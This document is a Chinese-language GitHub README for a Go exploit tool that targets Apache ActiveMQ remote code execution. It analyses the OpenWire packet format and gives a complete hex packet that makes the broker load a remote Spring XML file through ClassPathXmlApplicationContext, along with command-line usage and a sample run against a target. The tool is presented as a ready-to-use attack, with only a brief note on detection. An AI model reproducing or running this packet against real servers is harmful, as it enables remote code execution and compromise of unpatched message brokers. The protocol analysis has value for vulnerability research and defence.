 # ActiveMQ-RCE

ActiveMQ RCE 漏洞利用工具, 基于 Go 语言

## OpenWire 协议分析

参考官方的文档以及 Wireshark 对 OpenWire 协议进行简单分析

[https://activemq.apache.org/openwire-version-2-specification](https://activemq.apache.org/openwire-version-2-specification)

一个简单的 ActiveMQ RCE 数据包如下

```
000000701f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001d687474703a2f2f3132372e302e302e313a383030302f706f632e786d6c
```

我们可以把它分成两个部分: header 和 body

header

```
+----------------------------------------------------------------------------------+
| Packet Length | Command | Command Id | Command response required | CorrelationId |
|---------------|---------|------------|---------------------------|---------------|
|   00000070    |   1f    |  00000000  |          00               |   00000000    |
+----------------------------------------------------------------------------------+
```

Packet Length: body 部分的长度 / 2

Command: Command 类型标识符 (Type Identifier), `1f` 对应 ExceptionResponse

Command Id: 顾名思义, 这里以全 0 填充

Command response required: 表示是否需要响应

CorrelationId: 顾名思义, 这里以全 0 填充

body

```
+--------------------------------------------------------------------------------------+
| not-null | not-null | classname-size | classname | not-null | message-size | message |
|----------|----------|----------------|-----------|----------|--------------|---------|
|    01    |    01    |      0042      |   .....   |    01    |     001d     |  .....  |
+--------------------------------------------------------------------------------------+
```

开头的 not-null 为 `01`, 代表整个 body 部分不为空, 后面每三个部分代表一个 String 类型

not-null 代表 classname 这个字符串不为空, 然后跟上其长度以及 hex 内容 , message 以此类推

可以参考官方文档给出的示意图

String Type Encoding

```
             [=If not-null is 1===========]
+----------+ [ +-------+----------------+ ]
| not-null | [ | size  | encoded-string | ]
+----------+ [ +-------+----------------+ ]
| byte     | [ | short | size octects   | ]
+----------+ [ +-------+----------------+ ]
             [============================]
```

Throwable Type Encoding
```
             [=If not-null is 1===========================================================================]
             [                               [=If StackTraceEnabled option is enabled.==================] ]
             [                               [             [=Repeated size times======================] ] ]
+----------+ [ +----------------+---------+  [ +-------+ [ +--------+--------+--------+-------------+ ] ] ]
| not-null | [ | exception-name | message |  [ | size  | [ | class  | method | file   | line-number | ] ] ]
+----------+ [ +----------------+---------+  [ +-------+ [ +--------+--------+--------+-------------+ ] ] ]
| byte     | [ | string         | string  |  [ | short | [ | string | string | string | int         | ] ] ]
+----------+ [ +----------------+---------+  [ +-------+ [ +--------+--------+--------+-------------+ ] ] ]
             [                               [           [============================================] ] ]
             [                               [==========================================================] ]
             [============================================================================================]
```

## Usage

usage

```bash
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

Usage of ./ActiveMQ-RCE:
  -i string
    	ActiveMQ Server IP or Host
  -p string
    	ActiveMQ Server Port (default "61616")
  -u string
    	Spring XML Url
```

exploit

```bash
$ ./ActiveMQ-RCE -i 127.0.0.1 -u http://127.0.0.1:8000/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 127.0.0.1:61616
[*] XML URL: http://127.0.0.1:8000/poc.xml

[*] Sending packet: 000000701f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001d687474703a2f2f3132372e302e302e313a383030302f706f632e786d6c
```

如果只是单纯的检测是否存在漏洞, 可以将 spring xml url 改成 dnslog 地址